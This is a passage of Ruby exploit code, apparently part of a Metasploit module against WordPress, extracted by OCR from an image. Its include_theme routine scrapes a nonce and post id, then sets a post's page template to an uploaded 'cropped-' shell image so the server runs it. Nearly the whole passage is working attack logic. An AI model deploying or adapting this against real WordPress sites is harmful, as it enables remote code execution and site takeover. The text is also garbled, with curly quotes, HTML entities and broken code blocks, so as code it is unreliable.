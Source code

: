 ```
‘cropDetails[y1]’ => 0,

‘cropDetails[width]’ => 400,

‘cropDetails[height]’ => 300,

‘cropDetails[dst_width]’ => 400,

‘cropDetails[dst_height]’ => 300

}

)

end

def include_theme(shell_name, cookie)

uri = normalize_uri(datastore[‘TARGETURI’], ‘wp-admin’, ‘post-new.php’)

res = send_request_cgi(

‘method’   => ‘POST’,

‘uri’      => uri,

‘cookie’ => cookie

)

if res && res.code == 200 && res.body && !res.body.empty?

wpnonce2 = res.body.scan(/name="_wpnonce" value="(\w+)"/).flatten.first

post_id = res.body.scan(/“post”:{“id”:(\w+),/).flatten.first

fail_with(Failure::NotFound, ‘Unable to retrieve the second wpnonce and the post id’) unless wpnonce2 && post_id

```
 post_title = Rex::Text.rand_text_alpha(10)
  uri = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'post.php')
  res = send_request_cgi(
    'method'   =&gt; 'POST',
    'uri'      =&gt; uri,
    'cookie' =&gt; cookie,
    'vars_post'  =&gt; {
      '_wpnonce'=&gt; wpnonce2,
      'action' =&gt; 'editpost',
      'post_ID' =&gt; post_id,
      'post_title' =&gt; post_title,
      'post_name' =&gt; post_title,
      'meta_input[_wp_page_template]' =&gt; "cropped-#{shell_name}.jpg"
    }
  )
  fail_with(Failure::NotFound, 'Failed to retrieve post id') unless res &amp;&amp; res.code == 302
  post_id
end 
```

end

def check_for_base64(cookie, post_id)
```